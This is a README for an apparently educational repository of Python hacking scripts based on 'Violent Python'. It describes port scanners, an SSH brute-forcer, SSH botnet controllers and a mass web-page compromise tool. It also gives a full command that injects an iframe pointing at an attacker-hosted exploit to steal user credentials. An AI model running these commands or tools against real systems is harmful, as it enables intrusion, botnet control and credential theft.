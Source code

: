 # Digital-Forensic-Analytics
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on
The actual i have is Kali Linux 64 Bit 2018.2



# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it

## L) massCompromise.py
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location

attacker# python massCompromise.py -H 192.168.95.179 -r '<iframe src="
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt
